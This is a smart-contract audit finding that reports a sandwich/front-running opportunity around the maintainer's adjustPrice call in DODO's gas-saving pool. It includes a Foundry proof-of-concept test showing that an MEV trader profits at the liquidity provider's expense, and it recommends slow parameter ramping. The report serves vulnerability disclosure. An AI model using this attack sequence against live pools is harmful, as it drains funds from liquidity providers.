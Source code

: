 Witty Cerulean Panther

medium

# Adjusting "_I_" will create a sandwich opportunity because of price changes

## Summary
Adjusting the value of "I" directly influences the price. This can be exploited by a MEV bot, simply by trading just before the "adjustPrice" function and exiting right after the price change. The profit gained from this operation essentially represents potential losses for the liquidity providers who supplied liquidity to the pool.
## Vulnerability Detail
As we can see in the docs, the "_I_" is the "i" value in here and it is directly related with the output amount a trader will receive when selling a quote/base token:
<img width="581" alt="image" src="https://github.com/sherlock-audit/2023-12-dodo-gsp-mstpr/assets/120012681/61930727-f8d0-4f47-8712-32d6ada95334">

Since the price will change, the MEV bot can simply sandwich the tx. Here an example how it can be executed by a MEV bot:

```solidity
function test_Adjusting_I_CanBeFrontrunned() external {
        vm.startPrank(tapir);

        //  Buy shares with tapir, 10 - 10
        dai.safeTransfer(address(gsp), 10 * 1e18);
        usdc.transfer(address(gsp), 10 * 1e6);
        gsp.buyShares(tapir);

        // print some stuff
        console.log("Base target initial", gsp._BASE_TARGET_());
        console.log("Quote target initial", gsp._QUOTE_TARGET_());
        console.log("Base reserve initial", gsp._BASE_RESERVE_());
        console.log("Quote reserve initial", gsp._QUOTE_RESERVE_());
        
        // we know the price will decrease so lets sell the base token before that
        uint256 initialBaseTokensSwapped = 5 * 1e18;

        // sell the base tokens before adjustPrice
        dai.safeTransfer(address(gsp), initialBaseTokensSwapped);
        uint256 receivedQuoteTokens = gsp.sellBase(tapir);
        vm.stopPrank();

        // this is the tx will be sandwiched by the MEV trader
        vm.prank(MAINTAINER);
        gsp.adjustPrice(999000);

        // quickly resell whatever gained by the price update
        vm.startPrank(tapir);
        usdc.safeTransfer(address(gsp), receivedQuoteTokens);
        uint256 receivedBaseTokens = gsp.sellQuote(tapir);
        console.log("Base target", gsp._BASE_TARGET_());
        console.log("Quote target", gsp._QUOTE_TARGET_());
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());
        console.log("Received base tokens", receivedBaseTokens);

        // NOTE: the LP fee and MT FEE is set for this example, so this is not an rough assumption
        // where fees are 0. Here the fees set for both of the values (default values):
        // uint256 constant LP_FEE_RATE = 10000000000000;
        // uint256 constant MT_FEE_RATE = 10000000000000;

        // whatever we get is more than we started, in this example
        // MEV trader started 5 DAI and we have more than 5 DAI!!
        assertGe(receivedBaseTokens, initialBaseTokensSwapped);
    }
```
Test result and logs:
<img width="435" alt="image" src="https://github.com/sherlock-audit/2023-12-dodo-gsp-mstpr/assets/120012681/2c90a84e-7fba-47ef-8fe9-bbcd36a65268">

After the sandwich, we can see that the MEV bot's DAI amount exceeds its initial DAI balance (profits). Additionally, the reserves for both base and quote tokens are less than the initial 10 tokens deposited by the tapir (only LP). The profit gained by the MEV bot essentially translates to a loss for the tapir.

Another note on this is that even though the `adjustPrice` called by MAINTAINER without getting frontrunned, it still creates a big price difference which requires immediate arbitrages. Usually these type of parameter changes that impacts the trades are setted by time via ramping to mitigate the unfair advantages that it can occur during the price update.
## Impact
Medium since the adjusting price is a privileged role and it is not frequently used. However, this tx can be frontrunnable easily as we see in the PoC which would result in loss of funds. Although the admins are trusted this is not about admin being trustworthy. This is basically a common DeFi parameter change thread and should be well awared. For example, in curve/yeth/balancer contracts the ramp factors are changed via async slow update. It doesn't changes its value immediately but rather does this update slowly by every sec. For example we can see here in the yETH contract that the changing a parameter which determines the trades of users is updated slowly rather than one go:
https://github.com/yearn/yETH/blob/8d831fd6b4de9f004d419f035cd2806dc8d5cf7e/contracts/Pool.vy#L983-L997
## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol#L169-L174
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40-L113
## Tool used

Manual Review

## Recommendation
Acknowledge the issue and use private RPC's to eliminate front-running or slowly ramp up the "I" so that the arbitrage opportunity is fair